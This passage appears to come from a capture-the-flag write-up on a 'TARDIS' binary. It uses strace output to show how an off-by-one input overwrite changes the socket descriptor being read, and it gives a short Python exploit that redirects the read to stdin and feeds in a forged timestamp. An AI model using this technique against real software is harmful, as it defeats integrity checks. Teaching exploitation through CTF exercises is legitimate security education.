 ```
<p>Basically, it makes the connection and gets a socket numbered 3. Every 2 seconds, it reads a timestamp from the socket. One of the first things I often do while working on CTF challenges is disable alarm() calls, but in this case it was actually needed! I suspected that this is another anti-debugging measure - to catch people who disabled alarm() - and therefore I should look for the vulnerability in the callback function.</p>
<p>It turns out there wasn't really that much code, but the vulnerability was somewhat subtle and I didn't notice until I ran it in strace and typed a bunch of "A"s:</p>
<pre id="vimCodeElement">
<span class="Statement">read</span><span class="Statement">(</span><span class="Constant">0</span><span class="Normal">,</span> <span class="Identifier">AAAAAAAAAAAAAAAAAAAAAAAA</span>
<span class="Constant">"AAAAAAAAA"</span><span class="Normal">,</span> <span class="Constant">9</span><span class="Statement">)</span>                 <span class="Type">=</span> <span class="Type">9</span>
<span class="Statement">write</span><span class="Statement">(</span><span class="Constant">1</span><span class="Normal">,</span> <span class="Constant">"Invalid</span><span class="Special">\n</span><span class="Constant">"</span><span class="Normal">,</span> <span class="Constant">8</span>Invalid
<span class="Statement">)</span>                <span class="Type">=</span> <span class="Type">8</span>
<span class="PreProc">[...]</span>
<span class="Normal">---</span> <span class="Identifier">SIGALRM</span> <span class="Statement">{</span>si_signo<span class="Normal">=</span><span class="Identifier">SIGALRM</span><span class="Normal">,</span> si_code<span class="Normal">=</span><span class="Identifier">SI_KERNEL</span><span class="Normal">,</span> si_value<span class="Normal">=</span><span class="Statement">{</span>int<span class="Normal">=</span><span class="Constant">111</span><span class="Normal">,</span> ptr<span class="Normal">=</span><span class="Constant">0x6f</span><span class="Statement">}}</span> <span class="Normal">---</span>
<span class="Statement">write</span><span class="Statement">(</span><span class="Constant">65</span><span class="Normal">,</span> <span class="Constant">"</span><span class="Special">\0</span><span class="Constant">"</span><span class="Normal">,</span> <span class="Constant">1</span><span class="Statement">)</span>                      <span class="Type">=</span> <span class="Type">-1</span> <span class="Identifier">EBADF</span> <span class="Comment">(Bad file descriptor)</span>
<span class="Statement">read</span><span class="Statement">(</span><span class="Constant">65</span><span class="Normal">,</span> <span class="Constant">0xffffc6d8</span><span class="Normal">,</span> <span class="Constant">4</span><span class="Statement">)</span>                 <span class="Type">=</span> <span class="Type">-1</span> <span class="Identifier">EBADF</span> <span class="Comment">(Bad file descriptor)</span>
<span class="Statement">alarm</span><span class="Statement">(</span><span class="Constant">2</span><span class="Statement">)</span>                                <span class="Type">=</span> <span class="Type">0</span>
<span class="PreProc">[...]</span>

<p>When I put a bunch of "A"s into the prompt, it started reading from socket 65 (aka, 0x41 or "A") instead of from socket 3! There's an off-by-one vulnerability that allows you to change the socket identifier!</p>
<p>If you were to use "AAAAAAAA\0", it would overwrite the socket with a NUL byte, and instead of reading from socket 3 or 65, it would read from socket 0 - stdin. The very same socket we're already sending data to!</p>
<p>Here's the python code to exploit this:</p>
<pre id="vimCodeElement">
sys.stdout.write(<span class="Constant">"01234567</span><span class="Special">\0</span><span class="Constant">"</span>)
sys.stdout.flush()

time.sleep(<span class="Constant">2</span>) <span class="Comment"># Has to be at least 2</span>

sys.stdout.write(<span class="Constant">"</span><span class="Special">\x6d\x2b\x59\x55</span><span class="Constant">"</span>)
sys.stdout.flush()

<p>That hex value is a timestamp during the prescribed time. When it reads that from stdin rather than from the socket it opened, it thinks the time is right and we can then activate the TARDIS!</p>
<h2>Part 3b: Skipping the timestamp check</h2>
```